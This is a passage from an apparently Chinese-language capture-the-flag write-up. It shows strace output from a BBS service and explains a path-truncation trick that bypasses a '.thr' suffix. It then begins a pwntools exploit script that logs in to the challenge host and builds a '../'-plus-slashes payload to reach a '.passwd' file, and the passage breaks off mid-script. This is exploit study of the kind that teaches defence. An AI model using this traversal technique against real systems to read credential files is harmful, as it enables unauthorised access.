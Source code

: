 ```
"V", 1)                         = 1
read(0, "\n", 1)                        = 1
write(1, "\33[0;33m", 7)                = 7
...
write(1, "THREAD: ", 8THREAD: )                 = 8
write(1, "\33[0m", 4)                   = 4
read(0, hello_word
"h", 1)                         = 1
read(0, "e", 1)                         = 1
read(0, "l", 1)                         = 1
read(0, "l", 1)                         = 1
read(0, "o", 1)                         = 1
read(0, "_", 1)                         = 1
read(0, "w", 1)                         = 1
read(0, "o", 1)                         = 1
read(0, "r", 1)                         = 1
read(0, "d", 1)                         = 1
read(0, "\n", 1)                        = 1
access("/home/bbs/threads/hello_word.thr", F_OK) = -1 ENOENT (No such file or directory)
write(1, "\33[2J\33[H", 7
)              = 7
write(1, "\33[1;31m", 7)                = 7
write(1, "Thread does not exist! Press ent"..., 50Thread does not exist! Press enter to continue...
) = 50
write(1, "\33[0m", 4)                   = 4
read(0,
```

这里我们可以控制文件名，为了绕过`.thr`，尝试用长文件名，显示路径被截断：

```
access("/home/bbs/threads/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAA", F_OK) = -1 ENOENT (No such file or directory)
```

有了这个思路，编写完整脚本`exploit.py`，执行得到falg：

```
#!/usr/bin/python

from pwn import *


def main():
    p = remote('fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg', 12123)
    p.recvuntil("USERNAME: \33[0m")
    p.sendline("guest")
    p.recvuntil("PASSWORD: \33[0m")
    p.sendline("0011ff2244ffbbaaaa22hhcc")

    # Path Truncation Attack
    length = 254
    pathing = b'/home/bbs/threads/'
    prefix = b'../'
    back_part = b'/.passwd'
    slashes = b'/' * (length - len(pathing) - len(back_part) - len(prefix))
    payload = prefix + slashes + back_part

    # SELECT prompt
    p.recvuntil("SELECT: \33[0m")
    p.sendline("V")

    # Send the path
```